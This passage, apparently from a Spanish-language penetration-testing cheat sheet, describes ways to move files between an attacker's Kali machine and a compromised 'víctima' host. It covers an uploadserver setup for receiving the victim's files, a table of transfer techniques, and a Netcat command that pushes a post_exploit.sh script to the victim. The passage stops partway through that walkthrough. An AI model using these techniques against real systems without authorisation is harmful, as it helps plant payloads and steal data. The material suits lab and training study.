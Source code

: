 
#### 6. 🔀 HTTP Upload (recepción desde víctima)

Puedes usar herramientas como `upload-server` para **recibir archivos desde otra máquina**.

##### 📦 Instalación:

```bash
pip install uploadserver
```

##### ▶️ Uso:

```bash
uploadserver
```

La víctima sube archivos vía navegador o `curl`.

---

### 🧠 Resumen Rápido

| Técnica                    | Necesitas en víctima | Ventaja clave          |
| -------------------------- | -------------------- | ---------------------- |
| Python HTTP + curl/wget    | curl o wget          | Muy simple y rápido    |
| Netcat                     | netcat               | Sirve sin internet     |
| SCP                        | SSH                  | Seguro y cifrado       |
| SMB (Impacket)             | Windows/Linux        | Ideal para Windows     |
| FTP                        | Cliente FTP          | Transferencia múltiple |
| HTTP Upload (uploadserver) | Navegador o curl     | Víctima envía archivos |

---

### 🧪 Ejemplo Completo Paso a Paso

#### 🎯 Objetivo:

Enviar un script `post_exploit.sh` desde tu máquina Kali a una víctima Linux **que no tiene `wget`, `curl` ni Python**, pero sí tiene **Netcat**.

---

#### ✅ Paso 1: En Kali (servidor, envía archivo)

```bash
nc -lvnp 5555 < post_exploit.sh
```

---

#### ✅ Paso 2: En la máquina víctima (cliente, recibe archivo)
